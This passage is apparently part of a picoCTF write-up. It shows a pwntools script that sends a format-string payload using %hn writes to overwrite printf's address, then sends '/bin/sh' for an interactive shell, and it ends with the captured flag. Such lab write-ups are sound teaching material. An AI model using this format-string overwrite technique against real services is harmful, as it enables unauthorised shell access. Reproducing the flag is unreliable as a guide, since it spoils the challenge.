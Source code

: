 ```py

buildStack(printf)
buildStack(printf + 2)
buildStack(printf + 4)
buildStack(printf + 6)


formatStr = ""
written = 0

formatStr += "%28$hn"
formatStr += "%36$hn"
formatStr += "%{}x".format(0x40)
formatStr += "%44$hn"
formatStr += "%{}x".format(0x6f0 - 0x40)
formatStr += "%52$hn"

io.recvuntil("portfolio\n")
io.sendline("1")
io.recvuntil("token?\n")
io.sendline(formatStr)

io.recvuntil("portfolio\n")
io.sendline("1")
io.recvuntil("token?\n")
io.sendline("/bin/sh")
io.interactive()
```

## Flag

`picoCTF{explo1t_m1t1gashuns_d67d2898}`

